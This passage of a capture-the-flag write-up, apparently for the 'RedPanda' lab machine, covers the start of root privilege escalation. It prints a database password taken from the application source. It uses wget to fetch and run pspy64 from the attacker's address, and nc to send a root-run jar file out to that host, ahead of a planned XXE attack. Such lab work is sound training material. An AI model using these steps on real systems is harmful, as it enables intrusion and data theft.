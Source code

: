 -------
# Root
### Step 1
* We're unable to run `sudo -l` due to the lack of password
* The directory `.ssh` doesn't exist so we can't steal `id_rsa` for persistance

Manually enumerating the box we find the sensitive web files at `/opt/panda_search`. Digging deeper we find the sql connection including the password for user `Woodenk`.

```bash
woodenk@redpanda:/opt/panda_search/src/main/java/com/panda_search/htb/panda_search$ cat MainController.java
[... snip ...]
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
```

Looking in the MySQL Server there's nothing of use however, only pictures of red pandas.

Before enumerating automatically with linPEAS etc I like to use `pspy64` to see if there's anything obvious being executed as root that we can exploit, so lets look at that.

```bash
woodenk@redpanda:/dev/shm$ wget http://10.10.14.6/pspy64
woodenk@redpanda:/dev/shm$ chmod +x pspy64 
woodenk@redpanda:/dev/shm$ ./pspy64
[... snip ...]
2022/08/16 10:36:01 CMD: UID=0    PID=18234  | /bin/sh -c /root/run_credits.sh 
2022/08/16 10:36:01 CMD: UID=0    PID=18233  | /usr/sbin/CRON -f 
2022/08/16 10:36:01 CMD: UID=0    PID=18236  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar 
2022/08/16 10:36:01 CMD: UID=0    PID=18235  | /bin/sh /root/run_credits.sh 
2022/08/16 10:36:53 CMD: UID=0    PID=18257  | 
2022/08/16 10:38:01 CMD: UID=0    PID=18270  | /usr/sbin/CRON -f 
2022/08/16 10:38:01 CMD: UID=0    PID=18271  | /bin/sh -c /root/run_credits.sh 
2022/08/16 10:38:01 CMD: UID=0    PID=18272  | /bin/sh /root/run_credits.sh 
2022/08/16 10:38:01 CMD: UID=0    PID=18273  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar 
```

Okay so we see a .jar-file being executed every 2 minutes by root (UID=0), lets download that file and investigate it.

```bash
➜  redpanda nc -lp 1234 > final-1.0-jar-with-dependencies.jar
woodenk@redpanda:/opt/credit-score/LogParser/final/target$ nc -w 3 10.10.14.6 1234 < final-1.0-jar-with-dependencies.jar
```


### Step 2 
The jar-file has a lot to unpack and you really need focus to keep your ducks in a row. I use **jd-gui** to open and analyze the jar. 
Ill try to go through all the requirements, step by step, and what we need to do to pass to code execution through **XXE**.
